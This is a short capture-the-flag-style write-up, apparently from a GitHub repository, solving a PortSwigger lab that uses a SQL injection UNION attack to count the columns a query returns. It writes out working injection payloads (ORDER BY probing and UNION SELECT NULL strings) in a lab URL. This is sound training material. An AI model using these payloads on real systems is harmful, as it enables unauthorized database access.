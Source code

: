 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

## Lab's description

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

**End goal :**  determine the number of columns returned by the query by performing a SQL injection UNION attack 

## Solution

First, I choose any type of category
`https://0a7500830322a6b781704d6000b40045.web-security-academy.net/filter?category=Pets`

Now, I try to modify the link to determine the number of columns required.

After I try, I can see `' ORDER BY 4--` display error. That means it has 3 columns. So I can exploit the payload: `' UNION SELECT NULL, NULL, NULL--`

`https://0a7500830322a6b781704d6000b40045.web-security-academy.net/filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL--`

**Source:** [Lab: Determining the number of columns required](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)
